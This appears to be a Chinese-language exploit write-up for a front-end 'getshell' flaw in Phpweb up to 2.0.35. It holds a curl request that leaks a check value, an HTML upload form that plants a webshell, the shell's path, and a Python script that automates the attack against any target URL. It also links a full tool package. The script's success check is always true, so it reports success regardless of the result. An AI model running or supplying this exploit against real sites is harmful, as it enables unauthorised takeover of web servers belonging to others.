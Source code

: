 Phpweb 前台getshell
===================

一、漏洞简介
------------

漏洞影响文件:/base/post.php /base/appfile.php /base/appplue.php
/base/appborder.php

二、漏洞影响
------------

Phpweb\<=2.0.35

三、复现过程
------------

### 1.首先要获取加密前的Md5值，用于文件较检,通过Post提交数据来获取!

    curl "http://website/base/post.php" -H "act=appcode"

![](./.resource/Phpweb前台getshell/media/rId25.png)

    ac34c64cdb405eff881efc5476a64761 ##这个就是初始值

### 2.获取加密后得md5值

然后将初始值md5加密(ac34c64cdb405eff881efc5476a64761 + "a")

得到加密后的MD5值!

    e10adc3949ba59abbe56e057f20f883e ##这个就是加密后的md5值(终值)!

3.Getsehll exp:

    <html>
    <body>
    <form action="http://0-sec.org/base/appfile.php" method="post" enctype="multipart/form-data">
    <label for="file">Filename:</label>
    <input type="file" name="file" id="file" />
    <input type="text" name="t" value="a" />
    <input type="text" name="m" value="25a824696cb75a44aabd05a08070789f" />
    <input type="text" name="act" value="upload" />
    <input type="text" name="r_size" value="14" />
    <br />
    <input type="submit" name="submit" value="getshell" />
    </form>
    </body>
    </html>

![](./.resource/Phpweb前台getshell/media/rId27.png)

然后...Getshell!

![](./.resource/Phpweb前台getshell/media/rId28.png)

当出现OK两个大字时,说明你成功了!!!

上传的shell路径是

[http://www.0-sec.org/effect/source/bg/shell名称.php](http://www.0-sec.org/effect/source/bg/shell名称.php)

![](./.resource/Phpweb前台getshell/media/rId30.png)

### 工具编写

Python exp\[Python3\]:

    # -*- coding: UTF-8 -*- #
    import os
    import requests
    import hashlib

    bdlj = os.getcwd()
    headers = open(bdlj+"\headers.txt",'r')
    headerss = headers.read()
    print('\b')

    ur = input("请输入目标网址:")
    requrl =  ur + '/base/post.php'
    reqdata = {"act":"appcode"}
    r = requests.post(requrl,data=reqdata)
    cz=r.text[2:34]
    print ('初值:' + cz)

    cz=r.text[2:34]+"a"
    m = hashlib.md5()
    b = cz.encode(encoding='utf-8')
    m.update(b)
    zz = m.hexdigest()
    print ('终值:' + zz)

    infile = open(bdlj + "\datas.txt", "r",encoding='utf-8')
    outfile = open(bdlj + "\datah.txt", "w",encoding='utf-8')
    for line in infile:
          outfile.write(line.replace('156as1f56safasfasfa', zz))
    infile.close()
    outfile.close()
    datas = open(bdlj+"\datah.txt",'r')
    datass = datas.read()

    gs = requests.post(ur + '/base/appfile.php',data=datass,headers={'Content-Type':headerss})
    gs.encoding = 'utf-8'
    print (gs.text)

    if {gs.text == "OK"}:
        print ("Getshell成功! Shell:" + ur + "/effect/source/bg/mstir.php")
    else:
        print ("Getsehll失败!")

整包下载地址:<https://github.com/ianxtianxt/Phpweb-Getshell-py>

使用请下载整包,否则会缺少协议头和data数据!

使用教程:

![](./.resource/Phpweb前台getshell/media/rId33.png)

参考链接
--------

> <https://m4tir.github.io/Phpweb-Reception-Getshell>
